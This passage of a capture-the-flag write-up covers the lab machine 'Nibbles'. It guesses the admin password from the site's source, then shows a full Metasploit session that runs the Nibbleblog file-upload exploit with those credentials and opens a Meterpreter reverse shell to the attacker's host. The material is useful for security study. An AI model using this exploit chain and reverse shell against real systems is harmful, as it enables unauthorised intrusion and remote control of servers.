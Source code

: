 We do see two mentions of `nibbles` in the site title as well as the notification e-mail address. This is also the name of the box. Could this be the admin password?
## Metasploit

Now we can use the [Exploit](../../../3%20-%20Tags/Hacking%20Concepts/Exploit.md):

```bash
msf > search nibbleblog
                                                                                                                                             
Matching Modules                                                                                                                             
================                                                                                                                             
                                                                                                                                             
   #  Name                                       Disclosure Date  Rank       Check  Description                                              
   -  ----                                       ---------------  ----       -----  -----------                                              
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability                     
                                                                                                                                             
                                                                                                                                             
Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload                          
                                                                                                                                             
msf > use 0                                                                                                                                  
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp                                                                         
msf exploit(multi/http/nibbleblog_file_upload) > options

msf exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.14.115
lhost => 10.10.14.115
msf exploit(multi/http/nibbleblog_file_upload) > set lport 1337
lport => 1337
msf exploit(multi/http/nibbleblog_file_upload) > set rhost nibbles.htb
rhost => nibbles.htb
msf exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog
targeturi => /nibbleblog/admin
msf exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.14.115:1337                                                                                         
[*] Sending stage (40004 bytes) to 10.129.8.174
[+] Deleted image.php
[*] Meterpreter session 1 opened (10.10.14.115:1337 -> 10.129.8.174:56120) at 2025-09-11 23:20:01 +0200

meterpreter > ls
Listing: /var/www/html/nibbleblog/content/private/plugins/my_image
==================================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  258   fil   2025-09-11 23:19:57 +0200  db.xml

meterpreter > shell
meterpreter > shell
Process 1755 created.
Channel 2 created.
```
